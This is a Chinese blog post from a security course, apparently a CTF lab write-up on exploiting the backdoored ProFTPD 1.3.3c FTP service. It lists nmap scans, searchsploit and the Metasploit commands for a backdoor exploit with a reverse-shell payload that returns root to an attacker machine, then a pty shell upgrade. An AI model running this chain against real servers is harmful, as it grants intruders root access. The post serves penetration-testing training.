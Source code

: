 ```yaml
---
title: 【网络安全0x04】FTP服务后门利用
date: 2020-05-14 17:33:08
tags: [网络安全, nmap, metasploit]
---
```


51CTO的网课，本篇针对FTP服务后门，利用metasploit搜索可用payload渗透靶机，获取flag。

本篇使用工具nmap、metasploit。

<!-- more -->

# 使用命令

## nmap

* 探测靶场开放的服务与服务的版本
``` bash
-- nmap -sV 靶场IP地址
```

* 探测靶场全部信息
``` bash
-- nmap -A -v -T4 靶场IP地址
```

## metasploit

* 查找可利用漏洞

``` bash
searchsploit 对应服务及版本
```

* 渗透攻击

``` bash
msfconsole
>search 对应服务及版本
>use 对应exploit

>show payloads
>set payload 对应payload

>show options

>set rhosts 靶机IP地址
>set lhost 攻击机IP地址

>run
```

## shell优化

* 优化会话显示带用户、目录的命令行界面

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口、系统信息等：

``` bash
nmap -sV 192.168.1.113
nmap -A -v -T4 192.168.1.113
```

![](./1054/1.PNG)

![](./1054/2.PNG)

2. 搜索该ftp服务版本，查找可利用漏洞，看到metasploit里有可用漏洞：

``` bash
searchsploit ProFTPD 1.3.3c
```

![](./1054/3.PNG)

3. 进metasploit，搜索可利用漏洞，选择版本对应的这个：

``` bash
msfconsole
>search ProFTPD 1.3.3c
>use exploit/unix/ftp/proftpd_133c_backdoor
```

![](./1054/4.PNG)

4. 查看可利用payloads，选择这个：

``` bash
>show payloads
>set payload cmd/unix/reverse
```

![](./1054/5.PNG)

5. 设置靶机IP和攻击机IP：

``` bash
>set rhosts 192.168.1.113
>set lhost 192.168.1.114
```

![](./1054/6.PNG)

6. 执行渗透，成功拿到root权限：

![](./1054/7.PNG)

7. 优化shell，切换到根目录拿到flag，这里是有flag的，可能我这个靶机镜像被之前的使用者删掉了：

![](./1054/8.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)